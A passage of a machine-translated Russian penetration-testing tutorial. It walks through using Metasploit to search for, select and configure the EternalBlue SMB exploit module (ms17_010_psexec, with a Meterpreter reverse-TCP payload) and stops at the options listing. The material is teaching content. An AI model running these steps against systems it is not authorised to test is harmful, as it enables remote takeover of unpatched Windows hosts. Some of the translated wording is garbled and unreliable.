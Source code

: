 Как только у нас есть `Metasploit` работая, мы можем найти наше целевое приложение с помощью `search exploit`команда. Например, мы можем найти уязвимость SMB, которую мы определили ранее:

Публичные подвиги

```shell-session
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
```

Совет: Поиск может применять сложные фильтры, такие как поиск cve:2009 type:exploit. Просмотреть все фильтры с помощью поиска

Мы нашли один эксплойт для этого сервиса. Мы можем использовать его, скопировав его полное имя и используя `USE` чтобы использовать его:

Публичные подвиги

```shell-session
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Прежде чем мы сможем запустить эксплойт, нам необходимо настроить его параметры. Чтобы просмотреть параметры, доступные для настройки, мы можем использовать команду `show options` команда:

Публичные подвиги

```shell-session
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
```